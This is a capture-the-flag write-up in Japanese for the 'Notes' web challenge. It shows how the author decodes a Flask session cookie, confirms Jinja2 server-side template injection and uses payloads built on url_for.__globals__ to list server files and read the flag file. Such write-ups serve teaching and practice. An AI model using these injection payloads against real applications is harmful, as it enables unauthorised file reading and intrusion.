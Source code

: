 # Notes:Web:881pts
[http://challenges2.hexionteam.com:2001](http://challenges2.hexionteam.com:2001)  

# Solution
URLにアクセスすると次のようなページが開く。  
[site.png](site/site.png)  
どうやら買い物のメモを保存しておくサイトのようで、ソース(Notes.html)を見てやると/notesが存在するらしい。  
Cookieを見てやると、以下のセッションが保存されていた。  
形式からFlask(Jinja2)であることがわかる。  
```text
eyJub3RlcyI6WyJTYXRva2kgPCBIYWhhaGEhIl19.XpSLdw.WPQ1IOdmeqLcVz8SeuI3NzWkfi0
```
デコードしてやるが何もない。  
```bash
$ flask-unsign --decode --cookie 'eyJub3RlcyI6WyJTYXRva2kgPCBIYWhhaGEhIl19.XpSLdw.WPQ1IOdmeqLcVz8SeuI3NzWkfi0'
{'notes': ['Satoki < Hahaha!']}
```
入力欄に`{{`を入力してやると/notesで500エラーが発生する。  
`{{10+10}}`を入力してやると/notesでは20になっているので、Jinja2の式が評価されて出力されている。  
サーバーサイドテンプレートインジェクションをにらんで`{{config}}`を入力すると/notesは以下になる。  
[{{config}}を入力した/notes](notes_{{config}}.html)  
ここからSECRET_KEYを奪い、セッションを偽装するのかとも考えたが、違うようだ。  
サーバーのファイルを読み取りにいく。  
`{{url_for.__globals__.__getitem__('os').listdir('./')}}`を入力すると/notesは以下になる。  
```text
["['.bash_logout', '.bashrc', '.profile', '__pycache__', 'server.py', 'templates', 'flag']"]
```
flagなるファイルがあるようだ。  
`{{url_for.__globals__.__getitem__('__builtins__').__getitem__('open')('flag').read()}}`を入力し表示する。  
```text
["hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput} "]
```

## hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}